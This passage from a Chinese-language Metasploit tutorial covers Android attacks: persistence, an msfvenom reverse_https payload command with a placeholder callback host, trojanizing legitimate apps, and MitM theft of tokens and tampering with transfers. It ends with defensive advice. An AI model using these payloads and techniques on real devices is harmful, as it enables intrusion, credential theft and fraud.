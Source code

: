 ### **玩法五：高级持久化与隐蔽通信**

获得初始访问只是第一步，维持访问并保持隐蔽才是关键。

**1. 移动设备持久化技术**
在 Meterpreter 的 `android` 命令中，有 `interval` 和 `job` 相关的命令，但功能有限。更高级的持久化需要：
*   **利用 Android 开机自启动机制**： 修改系统启动脚本（需要 root 权限），或者在 `/system/app/` 目录下植入恶意应用（需要 system 分区写入权限）。
*   **利用应用组件**： 在恶意 APK 中注册 `BroadcastReceiver` 来监听系统事件（如开机完成、网络状态变化），从而重新激活负载。
*   **使用 `wakelock`**： 防止手机进入深度睡眠，保持连接。

**2. 使用 HTTPS 或 DNS 隧道**
默认的 `reverse_tcp` 流量是明文的，容易被检测。使用更隐蔽的传输方式：
*   **HTTPS Payload**：
    ```bash
    # 使用 reverse_https 负载
    msfvenom -p android/meterpreter/reverse_https LHOST=your-domain.com LPORT=443 R > payload.apk
    ```
    这样所有通信都会加密在 HTTPS 流量中，看起来像正常的 Web 流量。
*   **DNS 隧道**： 这是一种极其隐蔽的技术，所有通信都通过 DNS 查询和响应完成。即使在严格限制的网络中，DNS 请求也通常被允许。Metasploit 有相应的 `reverse_dns` 负载和 `auxiliary/server/dns_tunneling` 模块。

---

### **玩法六：针对特定应用的攻击**

现代人大部分时间花在社交、购物、银行等应用上。针对这些应用进行攻击往往成功率更高。

**1. 创建钓鱼应用**
使用 `msfvenom` 生成负载后，可以使用如 `APKTool` 等工具反编译一个流行的合法应用（如一个游戏或工具），将你的负载代码植入其中，然后重新编译和签名。这种"加壳"的应用更难被用户怀疑。

**2. 中间人攻击 (MitM) 应用数据**
当目标连接到你的恶意 Wi-Fi 后，你可以使用 `mitmproxy` 等工具解密和分析手机应用的 HTTPS 流量（需要先在目标手机上安装你的 CA 证书，这可以通过社会工程学或已获得的 Meterpreter 会话来完成）。你可以：
*   窃取 API 令牌和会话 Cookie。
*   修改应用发送或接收的数据（如篡改转账金额）。
*   发现并利用应用自身的漏洞。

---

### **防御与检测建议（蓝队视角）**

了解攻击手法是为了更好的防御。

1.  **对于用户**：
    *   **永不安装未知来源的应用**： 在设置中关闭"允许未知来源"。
    *   **警惕可疑链接**： 不点击短信、邮件中的不明链接。
    *   **使用可信网络**： 避免连接公共的、无密码的 Wi-Fi。
    *   **保持系统与应用更新**： 及时修补安全漏洞。

2.  **对于组织**：
    *   **移动设备管理 (MDM)**： 强制执行安全策略，监控异常行为。
    *   **网络监控**： 使用 IDS/IPS 检测异常的出站连接（如到未知 IP 的 Reverse TCP 连接）。
    *   **应用审查**： 只允许从官方商店或经过审批的内部商店安装应用。
    *   **定期渗透测试**： 聘请专业团队使用上述方法测试自身移动应用和基础设施的安全性。

### **总结**

手机场景的高级玩法已经从简单的"生成 APK"演变为一个复杂的、多阶段的攻击链：
**初始入侵** (社会工程学/漏洞) → **权限提升** → **横向移动/数据窃取** → **持久化** → **隐蔽通信**。

掌握这些技术需要你不仅精通 Metasploit，还要熟悉移动操作系统原理、网络协议、加密技术和社会工程学。这是一个充满挑战但极具价值的网络安全领域。请务必在合法、合规的环境下运用这些知识。